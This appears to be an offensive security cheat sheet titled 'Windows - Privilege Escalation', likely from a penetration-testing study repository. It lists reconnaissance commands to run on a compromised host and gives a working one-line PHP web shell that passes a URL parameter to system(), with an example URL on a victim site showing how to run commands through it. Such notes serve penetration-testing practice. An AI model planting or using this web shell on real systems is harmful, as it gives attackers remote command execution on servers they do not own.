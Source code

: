 # ariel-shin Windows - Privilege Escalation

## Summary 
* [Tools](#tools)

## MUST RUN: ipconfig/ifconfig && whoami && cat local.txt

## Web Shell for Windows 
- [PHP Web Shell]
    Test if PHP works
    ```phpinfo
    <?php phpinfo(); ?>
    ```
    Command Execution
    ```php webshell
    <?php echo(system($_GET["cmd"])); ?>
    ```
    Go to http://victimsite.com/test.php?cmd=dir for command execution 
